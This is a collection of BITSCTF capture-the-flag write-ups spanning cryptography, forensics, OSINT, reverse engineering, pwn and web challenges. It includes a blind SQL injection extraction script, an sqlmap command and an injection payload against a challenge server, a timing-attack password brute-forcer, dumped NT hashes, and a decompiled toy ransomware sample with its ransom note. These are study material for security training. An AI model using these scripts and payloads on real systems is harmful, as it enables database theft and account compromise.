

### BITSCTF Writeups

# - [Cryptography Challenges](/docs/Cryptography/crypto.md)

######### Baby RSA
###### Description
RSA is for babies. So we improved it by taking it to the next dimension.

###### Solution
Putting `n` in dcode.fr gives `p` and `q`:
```
p = 142753777417406810805072041989903711850167885799807517849278708651169396646976000865163313860950535511049508198208303464027395072922054180911222963584032655378369512823722235617080276310818723368812500206379762931650041566049091705857347865200497666530004056146401044724048482323535857808462375833056005919409
q = 161374151633887880567835370500866534479212949279686527346042474641768055324964720409600075821784325443977565511087794614167314642076253331252646071422351727785801273964216434051992658005517462757428567737089311219316483995316413254806332369908230656600378302043303884997949582553596892625743238461113701189423
```
<br>
Reference for matrix RSA decryption:
https://www.researchtrend.net/ijet/pdf/13%20%20Matrix%20Modification%20of%20RSA%20Public%20Key%20Cryptosystem%20and%20its%20Variant%20Manju%20Sanghi%203513.pdf <br>

```py
phi = (p**2 -1)*(q**2 - 1)
d = pow(e, -1, phi)

###ct contains the given ciphertext output
c = matrix(Zmod(n), [[ct[0], ct[1]], [ct[2], ct[3]]])
pt = c ^ d

flag = b''
for row in pt:
    for ele in row:
        flag += long_to_bytes(int(ele))
print(flag)
```
######### Flag
`BITSCTF{63N3r41_11N34r_6r0UP_C4ND0_4NY7H1N6}`


### Not Suspicious Agency

###### Description
The Not Suspicous Agency has created a very secure way to encrypt your messages that only trusted individuals can decrypt. Trust is very important after all.

###### Solution
Reference for Dual_EC_DRBG:
https://www.youtube.com/watch?v=nybVFJVXbww <br><br>
`P` and `Q` are  nistp256 points. `e` referenced in the video is what we have in `backdoor.txt`. We can check that `Q = eP`. So, we recover `rQ` by bruteforce, and multiply it by inverse of `e` to get the state `s`. <br><br>
```einv * (r * Q) = einv * (r * e * P) = einv * e * (rP) = rP and s = rP.x```
<br><br>

```py
def find_y_square(x):
    a = 0xffffffff00000001000000000000000000000000fffffffffffffffffffffffc
    b = 0x5ac635d8aa3a93e7b3ebbd55769886bc651d06b0cc53b0f63bce3c3e27d2604b
    y2 = (pow(x, 3, p) + a * x + b) % p
    return y2

e = 106285652031011072675634249779849270405
n = 0xffffffff00000000ffffffffffffffffbce6faada7179e84f3b9cac2fc632551
p = 0xffffffff00000001000000000000000000000000ffffffffffffffffffffffff

trunc_rQ = strxor(test_op, test_str)[:30]

flag = False
for i in range (256):
    for j in range (256):
        b1 = long_to_bytes(i)
        b2 = long_to_bytes(j)
        rQx = bytes_to_long(b1 + b2 + trunc_rQ)
        ysq = int(find_y_square(int(rQx)))
        try:
            y = pow(ysq, (p + 1) // 4, p)
            Z = ECC.EccPoint(rQx, y, curve='p256')
            einv = pow(e, -1, n)
            rP = einv * Z
            s2 = int(rP.x)
            g2 = generate(P, Q, s2)
            pt = encrypt(g2, test_op[-5:])
            if pt == b'gging':
                print(pt)
                pt = encrypt(g2, flag_op)
                print(pt)
                flag = True
        except:
            pass
        if flag:
            break
    if flag:
        break
if not flag:
    print("not found")
```

###### Flag
`BITSCTF{N3V3r_811ND1Y_7rU57_574ND4rD5}`


# - [DFIR Challenges](/docs/dfir/dfir.md)

### DFIR

DFIR or Digital Forensics and Incident Response is a field within cybersecurity that focuses on the identification, investigation, and remediation of cyberattacks. 

We are provided with three files - memdump.mem, trace.pcap and artifacts.ad1

###### Access Granted! 
<i>Description: First things first. MogamBro is so dumb that he might be using the same set of passwords everywhere, so lets try cracking his PC's password for some luck.</i>
<hr>
Given that Mogambro reuses his password for many things, we can just find his user password. This can be achieved by dumping user hashes from memdump

```
$ python3 vol.py -f memdump.mem windows.hashdump

Volatility 3 Framework 2.4.2
Progress:  100.00		PDB scanning finished                          
User	rid	lmhash	nthash

Administrator	500	aad3b435b51404eeaad3b435b51404ee	8a320467c7c22e321c3173e757194bb3
Guest	501	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount	503	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount	504	aad3b435b51404eeaad3b435b51404ee	74d0db3c3f38778476a44ff9ce0aefe2
MogamBro	1000	aad3b435b51404eeaad3b435b51404ee	8a320467c7c22e321c3173e757194bb3
```

This hash is easily cracked...



### Flag: BITSCTF{adolfhitlerrulesallthepeople} 
<hr>
<hr>

###### 0.69 Day 
<i>Description: MogamBro was using some really old piece of software for his daily tasks. What a noob! Doesn't he know that using these deprecated versions of the same leaves him vulnerable towards various attacks! Sure he faced the consequences through those spam mails.

Can you figure out the CVE of the exploit that the attacker used to gain access to MogamBro's machine & play around with his stuff.</i>
<hr>
Looking at the processes with pstree and cmdline plugins of volatility we observe that Mogambro mainly used Winrar, Outlook and Skype... 

These set of instruction look very suspicious.
```
8436	WinRAR.exe	"C:\Program Files\WinRAR\WinRAR.exe" "C:\Users\MogamBro\Downloads\Follow-these-instructions.zip"
1468	cmd.exe	C:\Windows\system32\cmd.exe  /K "C:\Users\MogamBro\AppData\Local\Temp\Rar$DIa8436.27164\steps.pdf .bat"   
780	conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4
8652	chrome.exe	Required memory at 0xb149572020 is not valid (process exited?)
3724	notepad.exe	notepad.exe  secret.png.enc 

```
This can be looked on further by analysis the artifacts.af1 in FTK Imager.. ..


<i>Note: Mounting the evidence item directly greatly helps in searching and browsing for files..</i>


follow-these-instructions.zip in ```C:/Mogambro/Downloads/```  folder.. looking into the zip file we see that it has a steps.pdf file as well as steps.pdf folder containing a .bat file of similar name... 
Googling a bit, we come across ```CVE-2023-38831``` that closely resembles this..


### Flag: BITSCTF{CVE-2023-38831}
<hr>
<hr>

###### MogamBro's guilty pleasure

<i>Description: MogamBro was spammed with a lot of emails, he was able to evade some but fell for some of them due to his greed. Can you analyze the emails & figure out how he got scammed, not once but twice!</i>
<hr>

We need to look for spam mails, mainly eml files. In artifacts.ad1, at path ```C:/Mogambro/Documents/Outlook``` we find two spam mails..

On first glance they just look like any other spam mails.. 
 Spammimic might be used to encode a secret message in the mail.. yep.


### Flag: BITSCTF{sp4m_2_ph1sh_U} 
<hr>

###### I'm wired in

<i>Description: MogamBro got scared after knowing that his PC has been hacked and tried to type a SOS message to his friend through his 'keyboard'. Can you find the contents of that message, obviously the attacker was logging him!</i>
<hr>

Mogambro suspects that he is being keylogged..
We look for any files with keyword key or any pcap files..

There's simply a keylog.pcap at ```C:/Mogambro/Desktop``` having usb traffic... 


True enough, HID data seems to have keylog information..


Using [this](https://www.usb.org/sites/default/files/documents/hut1_12v2.pdf###page=53) table, we can decode the HID Data...  I like to do it manually, after applying filters.. but obviously scripts can be used...

Decoded data...
```
I have been haked !!!
HELP ME 
BITSCTF{I_7h1nk_th3y_4Re_k3yl0991ng_ME!}

~ Mogambro
```

Always fun.

### Flag: BITSCTF{I_7h1nk_th3y_4Re_k3yl0991ng_ME!}

<hr>
<hr>

######  Bypassing Transport Layer 

<i>Description: The exploit not only manipulated MogamBro's secret but also tried to establish an external TCP connection to gain further access to the machine. But I don't really think he was able to do so. Can you figure out where the exploit was trying to reach to?</i>
<hr>
We have a trace.pcap file that we haven't used yet. Checking network statistics and resolved addresses... Mogambro has umm went to some sussy shady sites.. uhm ..yea. Well, I guess the ads were enough to populate the pcap file.

Anyways at time ``` 794 seconds``` 
we see pastebin being visited.. but since traffic is encrypted we can't get more information.

Luckily, in previous question along with keylog.pcap we found keys file at ```C:/Mogambro/Desktop```. Using this file, as the secret log file...


We can see pastebin link ```https://pastebin.com/mPvzn0AD``` that we found earlier in .bat file.. but the post has already been removed...
Following the TCP stream though, after a little search, we find the flag..


### Flag: BITSCTF{Ste4l1ng_pr1v47e_key5_ez:)}

<hr>
<hr>

### Lottery

<i>Description: Now that you know the CVE, figure out how the attacker crafted the payload & executed it to compromise the 'secret'.</i><hr>
We must get secret.png. We have come across lottery already in C:/Mogambro/Downloads.

Let's try to run this file in windows.

```
> .\lottery.exe
Traceback (most recent call last):
  File "lottery.py", line 34, in <module>
  File "lottery.py", line 17, in encrypt_file
FileNotFoundError: [Errno 2] No such file or directory: 'secret.png'
[26248] Failed to execute script 'lottery' due to unhandled exception!
```

This error code resembles python, meaning this file is a python to executable program. we can revert this to .pyc files by using `pyinstxtractor` 


```
> python .\pyinstxtractor.py .\lottery.exe
[+] Processing .\lottery.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 9008682 bytes
[+] Found 122 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: lottery.pyc
[+] Found 356 files in PYZ archive
[+] Successfully extracted pyinstaller archive: .\lottery.exe

You can now use a python decompiler on the pyc files within the extracted directory
```

Now we can use `pycdc` to get the .pyc file as it's original .py code

```
└─$ pycdc lottery.pyc
### Source Generated with Decompyle++
### File: lottery.pyc (Python 3.8)

import os
import tempfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile('w+b', False, **('mode', 'delete'))
    fp.write(key)
    return key


def encrypt_file(file_path, key):
Unsupported opcode: BEGIN_FINALLY
    iv = b'urfuckedmogambro'
### WARNING: Decompyle incomplete

if __name__ == '__main__':
    key = generate_key()
    file_path = 'secret.png'
    encrypt_file(file_path, key)
    print('Dear MogamBro, we are fucking your laptop with a ransomware & your secret image is now encrypted! Send $69M to recover it!')
```

Couple of code wasn't reverted, we can use `pycdas` to get all the python bytecode and give both this and that to chatgpt and tell it to generate the whole python code for us, end result we get the python code

```python
import os
import tempfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile('w+b', False, **{'mode': 'delete'})
    fp.write(key)
    return key

def encrypt_file(file_path, key):
    iv = b'urfuckedmogambro'
    with open(file_path, 'rb') as file:
        data = file.read()
        padded_data = pad(data, AES.block_size)
    
    cipher = AES.new(key, AES.MODE_CBC, iv)
    encrypted_data = cipher.encrypt(padded_data)
    
    with open(file_path + '.enc', 'wb') as encrypted_file:
        encrypted_file.write(encrypted_data)
    
    os.remove(file_path)

if __name__ == '__main__':
    key = generate_key()
    file_path = 'secret.png'
    encrypt_file(file_path, key)
    print('Dear MogamBro, we are fucking your laptop with a ransomware & your secret image is now encrypted! Send $69M to recover it!')
```

In the same folder we have the .enc file. Now we just need to reverse engineer this script to get our original .png, but there is key that we require. `urandom` is nearly impossible to reverse but the key is being stored at a temporary location, we know that the key is 32 bytes meaning the tempfile is also 32 bytes. Let's mount the image and search for a 32 byte file in the whole drive.


```powershell
PS D:\> Get-ChildItem -Path . -Recurse | Where-Object { $_.Length -eq 32 }


    Directory: D:\MogamBro\AppData\Local\Temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        15-02-2024     22:03             32 tmpd1tif_2a
```

This is the tempfile we need, we have the key, the iv and the cipher file. Now we write a script to decrypt the AES encryption.

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import os

def decrypt_aes_cbc(file_path, key, iv):
    with open(file_path, 'rb') as encrypted_file:
        ciphertext = encrypted_file.read()

    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    decryptor = cipher.decryptor()
    decrypted_data = decryptor.update(ciphertext) + decryptor.finalize()

    return decrypted_data

def save_decrypted_png(decrypted_data, output_path):
    with open(output_path, 'wb') as decrypted_file:
        decrypted_file.write(decrypted_data)

def main():
    ### Provide the file path, AES key, and IV
    encrypted_file_path = 'path/to/encrypted_file.png'
    output_file_path = 'path/to/decrypted_file.png'
    aes_key = b'your_aes_key_here'  ### 16, 24, or 32 bytes depending on AES key size (128, 192, or 256 bits)
    iv = b'your_iv_here'  ### 16 bytes

    decrypted_data = decrypt_aes_cbc(encrypted_file_path, aes_key, iv)
    save_decrypted_png(decrypted_data, output_file_path)

    print("File decrypted successfully!")

if __name__ == "__main__":
    main()
```

we get the initial image


Flag: `BITSCTF{1_r3c3ived_7h3_b0mbz}`


# - [Forensics Challenges](/docs/forensics/forensics.md)

### CHALLENGE:
rskbansal hacked into nasa mainframe and intercepted a radio signal from deep space along with a very SUS image. 
He tried using data representation but soon realised that he seems to be missing something...Help him figure out the secret!!! </br>
HINT: skbansal asked Huffman for help, he suggested to maybe try messing around with histograms.

### SOLVE:
The challenge description mentions 'deep space' which hints at using DeepSound for analyzing the wav file. </br>
On putting the secret.wav in DeepSound, we get a secret.zip file</br></br> 


The zip file required a password to unzip.</br>
On using sstv on the wav file, we obtain the password of the zip file as 'mogambro' </br></br>
On entering the password, the zip file gave two pkl files: enc_data.pkl and temp.pkl </br>
The hint mentioned Huffman and histograms. Searching steganography techniques using Huffman and histograms I came across the below GitHub repo: </br>

https://github.com/TejveerSingh13/Image-Steganography </br>

The link contains a README file which has a youtube link along with written instructions as to how to use the attached python files that contain the actual working code for the Huffman Encoding and Compression algorithm. </br>

On using the enc.png file and enc_data.pkl along with the decode option in the histo-shift.py code, we get a text file with a bunch of binary numbers. Now this text file and the tempo.pkl file need to be used in the huffman.py code which gives another text file that contains the decoded flag.

**FLAG: bitsctf{s73g4n06r4phy_15_n07_45_345y_45_17_533m5}**

# - [Osint Challenges](/docs/osint/osint.md)

### CHALLENGE:</br>
Sir-Steals-A-Lot is a world famous art thief. Lately he stole this painting. When he was caught he claimed to have done it because the painting commemorates the location of the crowned glory of his lady love. They fell in love in her hometown but her grandfather wouldn't let her marry a thief like him.! 
Answer is the meaning of his LadyLove's last name. Wrap the answer in the flag. Example :BITSCTF{your_answer}
HINT: 16th February 2024 is his LadyLove's 111th birthday (if she were still alive) </br></br>


### SOLVE:</br>
On searching for the image online, we find that the painting is called  'Landscape from Spa' by Peter Adolf Hall in the website given below.</br>
https://reasonator.toolforge.org/?lang=en&q=18546305 </br></br>

This hints that the LadyLove's 'crowning' took place in Spa, a place in Belgium. The hint told us that 16th February 1913 is the LadyLove's birthday.</br>
On searching for people with birthdays on the date we come across Keriman Ece</br>
According to https://en.wikipedia.org/wiki/Keriman_Halis_Ece :
Keriman Halis Ece (February 16, 1913 – January 28, 2012) was a Turkish beauty pageant titleholder, pianist, and fashion model who won the Miss Turkey 1932 title. She was also crowned Miss Universe 1932 in Spa, Belgium and thus became Turkey's first Miss Universe. </br></br>

It looks like we got the LadyLove's name. But the  flag requires the meaning of the name. On the same link above we see that her name 'Ece' means 'Queen' in Turkish. Hence the flag is: </br></br>

**FLAG : BITSCTF{Queen}**


# - [PWN Challenges](/docs/pwn/pwn.md)

### Mogambro's uncertainity principle

Challenge description gives as follow

```MogamBro's Certainty Principle states that the more accurate you are the more delay you'll face. Δt • Δp ≥ frustration / ram_space; where p is precission and t is time.```

We are given only the netcat connection, so connecting we get this result

```
$ nc 20.244.33.146 4445
Enter password: h    
Incorrect password
Time taken:  9.888255534974642e-05
```

We are given an arbitary time taken value for a password character. After a lot of testing, wrote a script to bruteforce all ascii characters for the password. We are able to see that if the character at that position is given then the time taken value is the highest. So i wrote a script to bruteforce all characters and keep on adding them.

After you keep bruteforcing you will finally get the passwords and after level 5 you get the flag

```
nc 20.244.33.146 4445
Enter password: sloppytoppywithatwist
Congratulations! You have unlocked the door to level 2!
Enter password: gingerdangerhermoinegranger
Congratulations! You have unlocked the door to level 3!
Enter password: hickerydickerydockskibididobdobpop
Congratulations! You have unlocked the door to level 4!
Enter password: snickersnortsupersecureshortshakingsafarisadistic
Congratulations! You have unlocked the door to level 5!
Enter password: boompopwhizzleskizzleraptrapmeowbarkhowlbuzzdrumburpfartpoop
Congratulations! You have unlocked all the doors. THe flag is BITSCTF{c0n6r47ul4710n5_0n_7h3_5ucc355ful_3n7ry}
```

Full script

```python
from pwn import context, remote
from multiprocessing import Process, Manager, Value
import ctypes

context.log_level = "ERROR"

### alphabets = "abcdefghijklmnopqrstuvwxyz1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZ_"
alphabets = "abcdefghijklmnopqrstuvwxyz"


def runner(passwords, timeTakens, curPass, currentChar):
    r = remote("20.244.33.146", 4445)

    for p in passwords:
        ### print(p)
        r.sendlineafter(b"Enter password: ", p)

    to_send = curPass.value + currentChar.encode()

    try:
        r.sendlineafter(b"Enter password: ", to_send)
    except EOFError:
        print("EOFError")
        return

    output = r.recvline().decode()
    ### print(output)
    if "congrat" in output.lower():
        if "BITSCTF" in output:
            print("\n\nGOT FLAG:", output.lower())
            ### exit() ### exit () doesn't work if inside process

        print("\n\nCRACKED LEVEL", to_send)
        passwords.append(to_send)
        curPass.value = b""
        r.close()
        return

    p = r.recvline().decode().strip()
    ### print(to_send, p)
    timeTakens[currentChar] = float(p.split("Time taken: ")[-1])

    r.close()


passwords_init = [
    b"sloppytoppywithatwist",
    b"gingerdangerhermoinegranger",
    b"hickerydickerydockskibididobdobpop",
    b"snickersnortsupersecureshortshakingsafarisadistic",
]

curPass_init = "boompopwhizzleskizzleraptrapmeowbarkhowlbuzzdrumburpfartp"
### curPass_init = ""

manager = Manager()
passwords = manager.list()

p_len = len(passwords_init)

for p in passwords_init:
    passwords.append(p)

curPass = Value(ctypes.c_char_p, curPass_init.encode())

while True:
    procs = []

    timeTakens = manager.dict()

    for alphabet in alphabets:
        proc = Process(target=runner, args=(passwords, timeTakens, curPass, alphabet))
        procs.append(proc)
        proc.start()

    for proc in procs:
        proc.join()

    ### print(timeTakens)

    if len(passwords) == p_len:
        try:
            correct_letter = timeTakens.keys()[
                timeTakens.values().index(max(timeTakens.values()))
            ]
            ### print(correct_letter)

            curPass.value += correct_letter.encode()
        except ValueError:
            print("got flag")
            exit()
    else:
        p_len = len(passwords)
        print(passwords)

    print(curPass.value)

    ### break
```
# - [Rev Challenges](/docs/rev/rev.md)

### baby-rev

Category: rev

Solves: 468

######### Description

> anita max wyinn

***

######### Solution

We are provided with a file, `baby-rev`.\
Opened the given file in ghidra.\
Found the checking function `myfunc` inside which each character of flag was being checked.


assembled the flag manually from there to solve.

***

######### Flag  - `BITSCTF{w3lc0me_t0_r3v}`

***


### Maxxing

Open the given minimax binary in a decompiler. From there in main you can see the specific function being called for the win


In this `syaaoksnqd` function at the end it just prints the red herring flag. But we can also see a hex being created. It is being made and copied into `dest` in the order provided and this gives 

`0x7008761D1E0CC30311AA0A04BD5D44A9F36233921865AE9DD4D471F06298B2FD94F`

If you look more in the function you can see two extra numbers here, an array of size of 3 and the same array of size 3 being multipled at the end.


`v22 : 0x133, v23 : 0x7E4E0C1`

So we can assume that there were supposedely three numbers that got multiplied in this win funciton. we have specifically three number.

```python
from Crypto.Util.number import long_to_bytes
a = 0x7008761D1E0CC30311AA0A04BD5D44A9F36233921865AE9DD4D471F06298B2FD94F
b = 0x133
c = 0x7E4E0C1

print(long_to_bytes(a * b * c))
```

`b'BITSCTF{w3_n33d_t0_st4rT_l0ok5m4Xx1nG}'`


### Touch Grass
The question provides an apk that counts the number of steps using accelerometer. This has a couple of solutions. 
###### Solution 1:
You can just walk.
###### Solution 2:
You can shake the phone. This changes the acceleration constantly and it is counted as steps.


# - [Web Challenges](/docs/web/web.md)
### Conquest

Category: Web

Solves: 62

######### Given information

> Our Mogambro is a lucid dreamer who has meticulously replicated one of his sessions in the form of the given website. Can you also complete the quest which Mogambro failed to do?

> http://20.244.82.82:2913/

######### Solution

The website presents a puzzle:

> Welcome Adventurer. You are about to take up on an impossible challenge.
> But first you gotta find the path that takes you to the arena

`/robots.txt` returns:

```
User-Agent: *
Disallow: /tournament
```

Upon visiting `/tournament` we are presented with a leaderboard for what looks like a dragon slaying tournament, and another puzzle:


---

Eventually we reach `/tournament/humans.txt`. This page presents an HTML form with two form inputs which return "Too Slow. Try Again!" upon submit:

-   Hidden text field with the value set to `1582510775.828625`
-   Submit button

```
<html lang="en">
<head>
    [...]
</head>
<body>
    <h1>BEWARE! SLAY THE DRAGON IF YOU DARE!</h1>
    <form action="/legend" method="post">
        <input type="hidden" value="1582510775.828625" name="slay">
        <input type="submit" value="Fight the Beast!">
    </form>
</body>
</html>
```

---

`1582510775.828625` is actually an [UNIX timestamp](https://en.wikipedia.org/wiki/Unix_time###Definition) that refers to `Mon Feb 24 07:49:35 AM IST 2020`, almost four years in the past.

After providing various inputs to the `slay` form input such as:

-   negative numbers
-   timestamps with micro (and milli) second offsets to `1582510775.828625`

We are able to obtain the flag on sending an absurdly large number: `1e308`.

Flag: `BITSCTF{7HE_r341_7r345Ur3_W45_7H3_Fr13ND5_W3_M4D3_410N6_7H3_W4Y}`


### Too Blind To See

Category: Web

Solves: 17

######### Given information

> Mogambro, our rookie intern, just stepped foot into the prestigious Software Firm. His big moment, the first project review, is knocking at the door like a pesky neighbor. But wait! Somewhere in his app lurks a secret which the admins are not aware of, hidden behind the password 'fluffybutterfly'. Can you crack the code and rescue Mogambro from this password puzzle? The clock is ticking!

> http://20.244.82.82:7000/

######### Solution

The given link leads to a boilerplate shopping site which has three forms:

-   /login
    -   Form 1: User sign in
        -   API endpoint: `/welcome-homie`
    -   Form 2: Admin login
        -   API endpoint: `/yesyoudidit`
-   Newsletter form at `/`
    -   API endpoint: `/final-destination`

`/yesyoudidit` is found to be vulnerable to SQL injection using the payload:

```
' or 1=1;-- -
```

But all we get from it is a fake flag:


---

The final endpoint `/final-destination` seems to be following the challenge name's footsteps as it's found to be vulnerable to Blind SQL injection. Inputting `' or 1=1;-- -` returns a JSON response containing the message "Email exists in the database" whereas any other normal input returns "Email does not exist in the database".

Using the following script we are able to extract the following table names: `maillist` and `userdata`.

```
import requests
import json
import string

charset = string.ascii_lowercase
print(charset)

table_name = ""

url = "http://20.244.82.82:7000/final-destination"

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
}

while True:
    for c in charset:
        payload = "email='%20union%20select%20null%2Cnull%20from%20sqlite_schema%20where%20name%20like%20'{}%25'--".format(
            table_name + c
        )

        response = requests.request("POST", url, headers=headers, data=payload)

        r = json.loads(response.text)

        if r["exists"]:
            print("\n", r)
            table_name += c
            print("Table name:", table_name)
            break
        else:
            ### print(c, r["exists"], end=" ")
            print(".", end="", flush=True)
```

We utilise sqlmap to further extract the database contents:

```
sqlmap --level 5 --risk 3 -o -r burp_request.txt -p email --thread 10 --all
```

```
Database: <current>
Table: maillist
[1 entry]
+-----------------------------+-----------------+
| email | password |
+-----------------------------+-----------------+
| krazykorgaonkar@hotmail.com | fluffybutterfly |
+-----------------------------+-----------------+

Database: <current>
Table: userdata
[1 entry]
+----+------------------+-----------+
| id | password | username |
+----+------------------+-----------+
| 2 | bxgcrVNmtUehpvgH | knowitall |
+----+------------------+-----------+
```

We are then able to obtain the flag after logging in with the first set of credentials: `krazykorgaonkar@hotmail.com:fluffybutterfly`.

Flag: `BITSCTF{5UB5Cr183r5_4r3_M0r3_7HAN_JU5T_C0N5UM3r5}`

# - [MISC Challenges](/docs/dfir/misc.md)

###### Sanity Check

Flag found in the rules channel of the discord server


### Binary Zoetrope

Given 1540 text files, each file has 240 lines of which each line has 320 characters, in which each character is either a 1 or a 0. 

Initial approach was to check if the binary encoded meant something and then checking what the difference was betweeen each consecutive file. And then we notice there is specific difference between consecutive binary. Either they are inverse of each other with a few character difference which is interesting. 


After looking at the challenge name, Zoetrope means images that are displayed to form an animation. Our best guess is that these text files form an image which compiled give an animation. So we ask chatgpt to do the heavy lifting for us.

```python
from PIL import Image
import os
from glob import glob

def create_image(file_path):
    with open(file_path, 'r') as file:
        lines = file.readlines()

    height = len(lines)
    width = len(lines[0].strip())

    image = Image.new('1', (width, height), color=0)

    for y, line in enumerate(lines):
        for x, char in enumerate(line.strip()):
            pixel_value = int(char)
            image.putpixel((x, y), pixel_value)

    return image

def compile_images_into_gif(folder_path, output_path='output.gif'):
    image_files = glob(os.path.join(folder_path, '*.txt'))
    images = [create_image(file_path) for file_path in image_files]

    ### Save the images as frames in a GIF
    images[0].save(output_path, save_all=True, append_images=images[1:], duration=100, loop=0)

if __name__ == "__main__":
    folder_path = 'data'  ### Replace with the actual path to your files
    compile_images_into_gif(folder_path)
```

the end result is like this


`BITSCTF{n0w_u_c_m3}`


### Combinatorial Conundrum

Category: Misc
Solves: 17
######### Given information:

>MogamBro has guarded your flag behind a grand equation. The equation involves 26 mysterious integers each constrained by a set of peculiar bounds. You need to find the number of solutions for the sum. The flag is equal to the remainder when the number of solutions is divided by 69696969.
  Wrap the flag that you get in BITSCTF{}

There's also a challenge file given, the content:


>MogamBro has guarded your flag behind a grand equation. The equation involves 26 mysterious integers each constrained by a set of peculiar bounds. You need to find the number of solutions for the sum:
>
>x1 + x2 + ... x26 = 69696969
>
>
>The bounds are:
>
>2008 <= x1  < 67434882
>5828 <= x2  < 35387831
>2933 <= x3  < 30133881
>411  <= x4  < 63609725
>4223 <= x5  < 18566959
>1614 <= x6  < 25526751
>5679 <= x7  < 44298843
>6349 <= x8  < 26793895
>117  <= x9  < 40292840
>2321 <= x10 < 42293336
>2281 <= x11 < 26301527
>1939 <= x12 < 50793633
>6273 <= x13 < 51546489
>1477 <= x14 < 36871159
>800  <= x15 < 65314188
>4727 <= x16 < 15882817
>2828 <= x17 < 40562779
>1782 <= x18 < 48186923
>1744 <= x19 < 37382713
>2486 <= x20 < 56149154
>6312 <= x21 < 18170199
>2188 <= x22 < 63940428
>5380 <= x23 < 58244044
>1772 <= x24 < 29193116
>2708 <= x25 < 22309445
>1528 <= x26 < 40848052
>
>
>The flag is equal to the remainder when the number of solutions is divided by 69696969.
>Wrap the flag that you get in BITSCTF{}

######### Solution:

Here we have to find the number of non-negative integer solution to the equation `x1 + x2 + ... x26 = 69696969`  with the constraints on each variable given.

We can do that using combinatorics, There's a standard stars and bards method of counting to find the solution, [this](https://math.stackexchange.com/questions/203835/enumerating-number-of-solutions-to-an-equation) gives a nice explanation.
The main problem is that using the above method requires accounting for lots of cases where more than 2 variables be doubly,triply counted.

Inclusion-Exclusion principle provides for a much more efficient way to tackle the problem.[this](https://math.stackexchange.com/questions/34871/inclusion-exclusion-principle-number-of-integer-solutions-to-equations)  provides for a good explanation on how it works.

The script used:
```
### Correcting the usage of comb() function
from math import comb

### Define the target sum
target_sum = 69696969

### Define the bounds
bounds = [
    (2008, 67434882), (5828, 35387831), (2933, 30133881), (411, 63609725),
    (4223, 18566959), (1614, 25526751), (5679, 44298843), (6349, 26793895),
    (117, 40292840), (2321, 42293336), (2281, 26301527), (1939, 50793633),
    (6273, 51546489), (1477, 36871159), (800, 65314188), (4727, 15882817),
    (2828, 40562779), (1782, 48186923), (1744, 37382713), (2486, 56149154),
    (6312, 18170199), (2188, 63940428), (5380, 58244044), (1772, 29193116),
    (2708, 22309445), (1528, 40848052)
]

### Define the number of bounds
num_bounds = len(bounds)

### Define a function to calculate the sum of integers within bounds
def sum_within_bounds(k):
    total = 0
    for i in range(1 << num_bounds):
        sign = -1 if bin(i).count('1') % 2 == 0 else 1
        current_sum = 0
        for j in range(num_bounds):
            if (i >> j) & 1:
                current_sum += bounds[j][0]
            else:
                current_sum += bounds[j][1]
        ### Check if the argument for comb() is non-negative
        if k - current_sum + num_bounds - 1 >= 0:
            total += sign * comb(k - current_sum + num_bounds - 1, num_bounds - 1)
    return total

### Apply inclusion-exclusion principle
result = abs(sum_within_bounds(target_sum)) ### Taking absolute value to ensure non-negativity

print("Number of solutions:", result)
print("flag:BITSCTF{"+str(result)+"}")
```

The flag is : BITSCTF{10414036}


